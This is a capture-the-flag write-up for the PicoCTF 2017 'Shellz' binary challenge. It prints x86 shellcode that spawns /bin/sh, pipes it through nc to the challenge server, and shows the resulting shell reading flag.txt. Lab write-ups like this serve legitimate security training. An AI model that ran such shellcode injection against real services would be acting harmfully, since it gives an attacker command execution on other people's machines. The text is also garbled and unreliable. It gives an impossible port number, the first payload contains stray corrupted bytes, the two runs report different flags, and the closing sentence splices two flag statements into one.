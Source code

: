 # PicoCTF_2017: Shellz

**Category:** Binary
**Points:** 55
**Description:**

>You no longer have an easy thing to call, but you have more space. Program: shellz! Source. Connect on shell2017.picoctf.com:2345912562.

**Hint:**

>There is a bunch of preexisting shellcode already out there!

## Write-up
The biggest problem with this challenge is the limited amount of shellcodes that would actually work here. It probably took me like 15 tries before I got the [correct shellcode](http://shell-storm.org/shellcode/files/shellcode-841575.php). So first, prepare the payload.

    python -c "print('\x31\xc9\xf7\xe1\xb0\x0b6a\x0b\x58\x99\x512\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')" > payload

Then, use the payload like this

    cat payload - | nc shell2017.picoctf.com 2345912562
    My mother told me to never accept things from strangers
    How bad could running a couple bytes be though?
    Give me 40 bytes:
    ls
    flag.txt
    shellz
    shellz_no_aslr
    xinetd_wrapper.sh
    cat flag.txt
    a15898b0a97abc19164f240407d6c51b

or 

	(python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"'; cat -) | nc shell2017.picoctf.com 23459
	My mother told me to never accept things from strangers
	How bad could running a couple bytes be though?
	Give me 40 bytes:
	ls
	flag.txt
	shellz
	shellz_no_aslr
	xinetd_wrapper.sh
	cat flag.txt
	5b5ba2c3b5558ec86315fd52b0c55a87

Therefore, the flag is `5b5ba2c3b5558ec86315fd52b0c55a87Therefore, the flag is `a15898b0a97abc19164f240407d6c51b`.
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE2NjgyMjAxOCwtMTY3MTkzMzI5OCwtMT
I2NDkzMDIxNywtNDQ3MzUyNzRdfQ==
-->